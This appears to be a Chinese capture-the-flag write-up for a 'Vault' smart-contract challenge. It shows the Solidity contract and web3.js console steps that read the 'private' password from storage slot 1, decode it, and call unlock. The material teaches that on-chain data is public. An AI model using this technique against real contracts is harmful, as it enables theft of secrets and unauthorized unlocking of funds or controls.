 # Vault

## 要求
打开 vault 来通过这一关!

## 代码

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

## 漏洞

这道题就涉及到一个知识点，就是区块链上无隐私。所有能上链的东西，都可以被查询到。

上面的`Vault` 合同，`password` 所在的slot是1，使用[web3js中的](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)的`getStorageAt`函数直接查看就好.


## pwn

```js
await web3.eth.getStorageAt(contract.address,1)
-> '0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

```

然后使用[hexToAscii](https://web3js.readthedocs.io/en/v1.2.11/web3-utils.html#hextoascii) 函数，可以进行解码
```
await web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
-> 'A very strong secret password :)'
```

最后：
`await contract.unlock(await web3.utils.asciiToHex("A very strong secret password :)"))`


